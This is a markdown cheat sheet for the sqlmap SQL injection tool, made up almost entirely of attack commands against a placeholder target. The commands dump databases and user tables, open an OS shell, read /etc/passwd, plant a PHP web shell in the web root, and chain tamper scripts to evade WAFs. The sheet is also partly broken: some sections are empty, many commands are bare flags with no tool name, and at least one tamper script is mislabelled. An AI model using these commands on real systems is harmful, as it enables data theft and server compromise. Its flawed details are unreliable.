


# SQLMap - SQL Injection Scanner

> **Tool:** SQLMap
> **Purpose:** SQL Injection Detection & Exploitation
> **Updated:** September 2026

---

## Overview



## Basic Usage

### Installation
```bash
pip install sqlmap                  # Via pip
git clone --depth 1 https://github.com/sqlmapproject/sqlmap-dev
```

### Simple Test
```bash
python3 sqlmap.py -u "http://target.com/page.php?id=1"
python3 sqlmap.py -u "http://target.com/page.php?id=1" -v 2
```

### POST Requests
```bash
python3 sqlmap.py -u "http://target.com/login.php" \
    --data="username=admin&password=test"
```

## Database Enumeration

### Discovery Phase


### Extract Structure
```bash
# List databases
-u "http://target.com/page?id=1" --dbs

# List tables in database
-u "http://target.com/page?id=1" -D database_name --tables

# List columns
-u "http://target.com/page?id=1" -D db -T users --columns
```

### Dump Data
```bash
# Dump specific table
-u "http://target.com/page?id=1" \
    -D database -T users --dump

# Dump all
-u "http://target.com/page?id=1" --dump-all
```

## Injection Techniques

### Type Detection
```bash
# Automatic detection
-u "http://target.com/page?id=1"

# Manual specification
-u "http://target.com/page?id=1" --technique=U    # UNION-based
-u "http://target.com/page?id=1" --technique=B    # Boolean-based blind
-u "http://target.com/page?id=1" --technique=T    # Time-based blind
-u "http://target.com/page?id=1" --technique=E        # Error-based
-u "http://target.com/page?id=1" --technique=S             # Stacked queries
```

### Boolean-Based Blind
```bash
# Inference payload
--technique=B \
    --string "Welcome back" \
    --not-string "Invalid" \
    --risk 2
```

### Time-Based Blind
```bash
# Delay injection
--technique=T \
    --threads 10 \
    --time-sec 5
```

## Custom Payloads

### HTTP Headers
```bash
# Cookie injection
--cookie="PHPSESSID=abc123"

# User-Agent spoofing
--random-agent

# Custom headers
--header="X-Forwarded-For: 127.0.0.1"
--header="Host: target.com"
```

### Request Timing
```bash
--delay 1              # 1 second delay
--retries 3              # Retry failed requests
--timeout 30            # 30s timeout
```

## Shell Access

### Operating System Access
```bash
# OS shell
--os-shell

# Commands:
# whoami
# cat /etc/passwd
# uname -a
```

### File Operations
```bash
# Read files
--file-read=/etc/passwd

# Write files
--file-write=/tmp/shell.php --file-dest=/var/www/html/shell.php
```

## Tamper Scripts

### WAF Bypass
```bash
# Basic bypass
--tamper=space2comment

# Multiple scripts
--tamper=space2comment,between,randomcase

# Common scripts:
# space2comment  # Comment injection
# between       # Randomize case
# charencode     # Character encoding
```

### Advanced Bypass
```bash
# Chained bypasses
--tamper=space2comment,charencode,randomcase,between,space2hascomment
```

## Verbose Output

```bash
# Levels 0-6
-v 1                # Show payload
-v 3                # Show headers
-v 6                # Full debug
```

**Tags:** #sqlmap #sqli #injection #database #security
